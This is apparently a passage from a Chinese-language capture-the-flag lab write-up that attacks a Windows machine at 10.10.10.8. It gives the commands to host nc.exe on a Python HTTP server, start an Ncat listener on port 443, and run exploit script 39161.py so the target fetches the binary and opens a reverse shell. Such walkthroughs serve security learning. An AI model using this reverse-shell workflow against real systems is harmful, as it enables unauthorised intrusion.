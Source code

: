 ![Screenshot-2019-10-08-at-21.13.37](img/87c0ae5ad560fe2b4eddac53bb56b930.png)

我发起攻击。在左上方的第一个窗口中，我启动了一个小型 python 服务器

```
python -m SimpleHTTPServer 80
```

Python 附带的 **SimpleHTTPServer** 模块是一个简单的 HTTP 服务器，它提供标准的 GET 和 HEAD 请求处理程序

右上角的第二个窗口有 netcat 监听。我在端口 ****443**** 上设置了一个 ****Ncat**** 监听器来捕获反向 shell 连接

> Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是为 Nmap 项目编写的，是古老的 [Netcat](http://sectools.org/tool/netcat/) 的改进版。它使用 TCP 和 UDP 进行通信，旨在成为一个可靠的后端工具，为其他应用程序和用户即时提供网络连接

你可以在这里了解更多关于 Ncat [的信息](https://nmap.org/book/ncat-man.html)

```
nc -nvlp 443 10.10.10.8
```

第三个窗口利用了 python 我不得不启动脚本两次，一次是触发**nc.exe**,另一次是获取反向 shell

python 漏洞(第三个窗口)将连接到 python 服务器(第一个窗口)以下载 nc.exe Windows 二进制文件。然后，nc.exe 连接回端口 443(第二个窗口)上的 Ncat 监听器，并将创建一个低权限反向外壳

```
python 39161.py 10.10.10.8 80
```

您可以检查这台机器上的用户是不是 Kostas

```
C:\Users\kostas\Desktop>
```

![Screenshot-2019-10-08-at-21.22.30](img/fcebef08c99b261b3816bf68a9e2359c.png)
